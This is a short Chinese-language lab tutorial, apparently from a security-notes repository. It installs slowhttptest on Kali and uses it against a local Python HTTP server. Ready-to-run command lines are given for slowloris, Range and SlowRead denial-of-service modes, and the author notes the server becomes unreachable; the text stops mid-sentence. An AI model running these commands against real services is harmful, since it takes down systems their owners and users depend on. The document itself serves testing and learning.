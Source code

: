 ## 安装

在kali下执行以下命令，执行命令安装

apt-get install slowhttptest

## 测试

启动一个简易http服务

python -m http.server 9000

![启动python的简易服务器](./img/slowhttptest/启动简易http服务.png)
 
通过浏览器访问

![浏览器访问](./img/slowhttptest/浏览器访问1.png)

执行测试

slowloris模式

slowhttptest -c 1000 -H -g -o header_stats -i 10 -r 200 -t GET -u http://192.168.31.64:9000 -x 24 -p 3

Range模式

slowhttptest -R -u http://192.168.31.64:9000 -t HEAD -c 100 -a 10 -b 3000 -r 500

SlowRead模式

slowhttptest -c 8000 -X -r 200 -w 512 -y 1024 -n 5 -z 32 -k 3 -u http://192.168.31.64:9000 -p 3

我选择的第一个

![执行测试]](./img/slowhttptest/执行测试.png)

再次去访问时

![执行测试]](./img/slowhttptest/无法访问.png)

服务已经不能







